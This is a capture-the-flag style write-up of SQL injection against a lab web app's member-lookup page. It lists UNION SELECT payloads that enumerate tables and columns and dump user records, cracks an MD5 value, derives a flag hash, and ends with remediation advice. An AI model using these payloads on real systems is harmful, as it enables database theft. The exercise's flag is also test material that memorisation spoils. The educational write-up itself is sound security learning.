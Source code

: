 # Write up SQL Injection page member

## Exploration

During our exploration of the web application, we came across a feature to retrieve information about members based on their ID:

![Capture d’écran 2024-05-02 à 19.32.58.png](images/Capture_decran_2024-05-02_a_19.32.58.png)

## Exploitation

Given that this functionality allows finding users, we deduced that it interacts with the database and could be potentially vulnerable to SQL injection. To confirm, a simple quote as ID can trigger an
error:

![image](images/Capture_decran_2024-05-02_a_19.34.34.png)

Initially, our input is not verified before making the database query. Our objective is to try and recover the database content from this SQL injection.

We believe that the base SQL query looks like:

```php
# The first ? corresponds to the number of columns returned that we need to determine
# We assume there are 2, for first name and last name

SELECT ? FROM users? WHERE id=<our_payload>;
```

First, we'll ensure the number of columns returned using an injection with UNION:

**1 UNION SELECT null,null**

This works. To confirm, we remove a null and run the query again, we get an SQL error:

![image](images/Capture_decran_2024-05-02_a_19.42.52.png)

To understand the payload, it's essential to comprehend how UNION work in SQL functions. It allows combining other data with a query but must return the same number of data as the first query. Data types should
also correspond, making **null** an ideal candidate.

The following payload will allow us to recover all table names from the database:

**1 UNION SELECT null,table_name FROM information_schema.tables**

We get a lot of output, but let's confirm that the 'users' table exists:

![image](images/Capture_decran_2024-05-02_a_19.46.57.png)

Next, we will obtain the column names for this table:

**1 UNION SELECT null,column_name FROM information_schema.columns**

We get a lot of output again, but we find a set of columns that seem related to users:

![image](images/Capture_decran_2024-05-02_a_19.54.00.png)

So we will recover all these values by concatenating them:

**1 UNION SELECT null,CONCAT(first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) FROM users**

And we obtain what we were looking for:

![image](images/Capture_decran_2024-05-02_a_19.59.27.png)

We decode the value **5ff9d0165b4f92b14994e5c685cdce28** using this [online decryptor](https://md5decrypt.net/), which gives us the value **FortyTwo**.

Following the suggestions given, we convert it to lowercase and calculate its SHA-256 hash:

```php
echo -n "fortytwo" | openssl dgst -sha256
SHA2-256(stdin)= 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```

## Remediation

SQL injections are still among the most common vulnerabilities for web applications according to the [OWASP Top 10](https://owasp.org/Top10/fr/). In 2021, SQL injections (of all types) ranked as the third
most common issue:

![Capture d’écran 2024-05-02 à 20.04.09.png](images/Capture_decran_2024-05-02_a_20.04.09.png)

This can lead to severe consequences for vulnerable websites, including:

- Data manipulation or deletion
- Privilege escalation
- Information leaks
- Remote code execution

To protect against SQL injection, follow these steps:

1. Use an ORM that supports prepared statements.
2. Validate user input.
3. Never use user-controllable data in SQL queries.
4. Follow the principle of least privilege.
5. Encrypt sensitive database data.
